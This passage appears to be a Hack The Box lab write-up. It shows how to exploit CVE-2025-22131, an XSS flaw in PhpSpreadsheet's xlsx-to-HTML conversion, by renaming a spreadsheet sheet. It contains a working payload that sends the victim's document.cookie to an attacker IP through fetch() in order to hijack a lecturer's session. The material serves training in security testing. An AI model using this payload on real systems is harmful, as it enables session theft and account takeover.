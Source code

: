 ### CVE-2025-22131
Take a look at security advisories [Cross-Site Scripting (XSS) vulnerability in generateNavigation() function](https://github.com/PHPOffice/PhpSpreadsheet/security/advisories/GHSA-79xx-vf93-p7cx). Read through the summary and know that this was a zero day xss when translate `.xlsx` file to `.html` response representation. <br>
It only provide `Poc` to this cve, we gonna adapt this to our machine challenge.

First we need to create a xlsx file with multiple sheets and then gonna change 1 sheet name to `"><img src=x onerror=alert(1)>`. <br>
For this step, we can try manually or we can use this [FSheet](https://www.treegrid.com/FSheet) with online Excel sheet so we rename the sheet and export to use it which way for faster.

![Guardian Excel Sheet Name](/assets/img/guardian-htb-release-area-machine/guardian-htb-release-area-machine_excel-sheet-name.png)

We gonna use this payload `"><img src=x onerror=fetch("http://10.10.16.36/?c="+document.cookie)>` in order to grab the lecturer cookie to escalate them.
